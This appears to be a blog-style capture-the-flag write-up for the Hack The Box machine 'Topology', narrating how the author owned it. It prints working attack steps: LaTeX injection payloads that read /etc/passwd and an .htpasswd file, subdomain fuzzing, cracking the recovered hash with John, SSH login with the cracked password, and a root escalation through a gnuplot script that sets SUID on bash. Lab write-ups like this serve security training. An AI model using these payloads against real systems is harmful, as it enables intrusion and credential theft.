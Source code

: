 ```yaml
---
title: 🧪 Topology - Hackthebox 
published: 2023-08-08
image: './HTB.gif'
description: Topology - Hackthebox 
tags: [Hackthebox, Box, Pentest]
category: Hackthebox
draft: true
---
```


# Creating Host

- `sudo vim etc/hosts/`
- add host as 10.10.11.217  topology.htb
- Link: http://topology.htb/


# Scanning

`nmap -A -sV 10.10.11.217`
![alt text](image.png)
## Home page
![alt text](image-1.png)

Found LaTeX Equation Generator but couldn’t redirect so adding this host name in `etc/hosts/` .

Had no idea about this website so searched Latex equation vulnerabilities and found [Formula/CSV/Doc/LaTeX Injection - HackTricks](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjxqeuszsyAAxVrzjgGHUAJC5EQFnoECA4QAQ&url=https%3A%2F%2Fbook.hacktricks.xyz%2Fpentesting-web%2Fformula-doc-latex-injection&usg=AOvVaw1n_NXF4m8WzMsGaABeQ7Vg&opi=89978449).

![alt text](image-2.png)
![alt text](image-3.png)

Now I wanted to read files from Latex code generator

command: `\input{/etc/passwd}`

:::note
 It's latex language issue , when I execute command its in "text" mode by adding $ it goes into "math mode" to calculate and execute equations.
:::

command: `$\input{/etc/passwd}$`

As we know /etc/passwd file is used **to keep track of every registered user that has access to a system.**

command: `$\lstinputlisting{/etc/passwd}$`

## Found LFI 
![alt text](image-4.png)

## Scanning for Subdomains
```
wfuzz -c --hc=404 --hw=545 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" http://topology.htb
```
![alt text](image-5.png)

Now, add `dev.topology.htb` and `stats.topology.htb` to `etc/hosts/`.

![alt text](image-6.png)
Now we need to bypass this authentication, as we have seen this domain is running on `Apache/2.4.41`.
![alt text](image-7.png)

[Bypass Apache/2.4.41 401 Unauthorized](https://www.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/)


Command: `$\lstinputlisting{/var/www/dev/.htpasswd}$`
![alt text](image-8.png)
Finally found a Hash as a `.PNG file`.

Hash: `vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`

## Hash Cracking using John

command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![alt text](image-9.png)
Output: `?:calculus20`

:::caution[Note]
As see in our initial Nmap scan we have few SSH ports open.
:::

### Connect to SSH

command: `ssh vdaisley@topology.htb`

password: `calculus20`

After connecting to the ssh port you get the user flag.

## Privilege Escaltion 

Gaining Root access
![alt text](image-10.png)

Nothing interesting found here, except a executable “pspy64”. 
:::important
💡 pspy is a command line tool designed **to snoop on processes without need for root permissions**.
:::
command: `./pspy64`

![alt text](image-11.png)

command: `/opt/gnuplot`

command: `ls`

Output: `ls: cannot open directory '.': Permission denied`

Create a file within gnuplot dir

command  bash-5.0$ `nano /opt/gnuplot/root.plt`

Reverse Shell - root.plt must contain `system “chmod u+s”`


command: `bash -p` 

```
-p  Turned on whenever the real and effective user ids do not match.
            Disables processing of the $ENV file and importing of shell
            functions.  Turning this option off causes the effective uid and
            gid to be set to the real uid and gid.
```

command: `whoami`   →  root

Obtained the root access. Now, move on to root dir.

There we have the root.txt.